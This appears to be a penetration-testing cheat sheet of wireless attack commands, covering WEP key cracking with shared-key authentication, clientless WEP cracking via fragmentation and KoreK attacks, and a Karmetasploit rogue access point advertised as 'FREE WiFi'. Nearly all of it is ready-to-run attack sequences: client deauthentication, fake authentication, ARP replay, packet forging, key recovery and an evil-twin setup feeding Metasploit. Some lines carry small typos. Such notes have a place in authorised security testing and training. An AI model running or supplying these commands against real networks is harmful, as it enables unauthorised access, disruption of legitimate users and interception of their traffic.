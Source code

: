 ### **Cracking WEP /w shared key AUTH**

```bash
airmon-ng start wlan0 #[$channel]
airodump-ng -c $channel --bssid $AP_MAC -w $out_file wlan0mon
#getting errors here: aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon #fake authentication
aireplay-ng -0 1 -a #AP_MAC -c $client_MAC wlan0mon #{de-authentication attack}
aireplay-ng -1 60 -e $ESSID -y $sharedkey_file -a $AP_MAC -h $host_MAC wlan0mon #fake authentication /w PRGA XOR file
aireplay-ng -3 -b $AP_MAC -h $host_MAC wlan0mon #ARP replay attack
aireplay-ng -0 1 -a $AP_MAC -c $client_MAC wlan0mon #de-authentication attack
aircrack-ng -0 -z -n 64 $in_cap_file #PTW attack; [-n]: Specify the length of the key: 64 for 40-bit WEP, 128 for 104-bit WEP
```

### **Cracking a Clientless WEP \(FRAG AND KOREK\)**

#### _{FRAG}_

```bash
airmon-ng start wlan0 #[channel]
airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon
aireplay-ng -1 60 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon #fake authentication
~aireplay-ng -5 -b $AP_MAC -h $host_MAC wlan0mon #frag attack
packetforge-ng -0 -a $AP_MAC -h $host_MAC -l $src_IP -k $dest_IP -y $frag_file -w $out_file.cap
tcpdump -n -vvv -e -s0 -r $in_file.cap #To test reading the capture file
aireplay-ng -2 -r $in_file.cap wlan0mon
```

#### _{KOREK}_

```bash
aireplay-ng -4 -b $AP_MAC -h $host_MAC wlan0mon
tcpdump -s 0 -s -e -r $in_file.cap #takes input from aireplay output .cap
packetforge-ng -0 -a $AP_MAC -h $host_MAC -l $src_IP -k $dest_IP -y $xor_fragfile -w $out_file.cap
aireplay-ng -2 -r $in_file.cap wlan0mon
aircrack-ng -0 $in_file.cap
```

## **Karmetasploit**

* [https://www.offensive-security.com/metasploit-unleashed/karmetasploit/](https://www.offensive-security.com/metasploit-unleashed/karmetasploit/)

```bash
airbase-ng -c $channel -P -C 60 -e “FREE WiFi” -v wlan0mon #"FREE WiFi" is the name of your evil AP
ifconfig at0 up 10.0.0.1/24
mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases
cat dhcpd.conf
touch /tmp/dhcp.log
chown dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0
msfconsole -r /root/karma.rc
```
